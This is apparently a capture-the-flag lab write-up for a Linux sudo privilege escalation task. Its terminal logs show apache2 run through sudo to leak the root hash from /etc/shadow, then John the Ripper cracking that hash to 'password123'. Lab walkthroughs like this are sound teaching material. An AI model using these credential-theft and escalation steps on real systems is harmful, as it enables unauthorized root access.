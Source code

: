 <br>

<h2>Task 9 . Privilege Escalation - Sudo (Abusing Intended Functionality)</h2>

<h3 align="left">Answer the question below</h3>

> 9.1. <em>Click 'Completed' once you have successfully elevated the machine</em><br><a id='9.1'></a>
>> <strong><code>No answer needed</code></strong><br>

```bash
sh-4.1# exit
exit
TCM@debian:~$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
TCM@debian:~$ sudo apache2 -f /etc/shadow
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
TCM@debian:~$ 
```

```bash
root@ip-10-10-66-139:~# echo 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::' > hash.txt
root@ip-10-10-66-139:~# cat hash.txt
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
root@ip-10-10-66-139:~# john --wordlist=rockyou.txt hash.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (root)
1g 0:00:00:02 DONE (2025-06-08 01:12) 0.3496g/s 537.0p/s 537.0c/s 537.0C/s cuties..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
root@ip-10-10-66-139:~# john hash.txt --show
root:password123:17298:0:99999:7:::

1 password hash cracked, 0 left
```

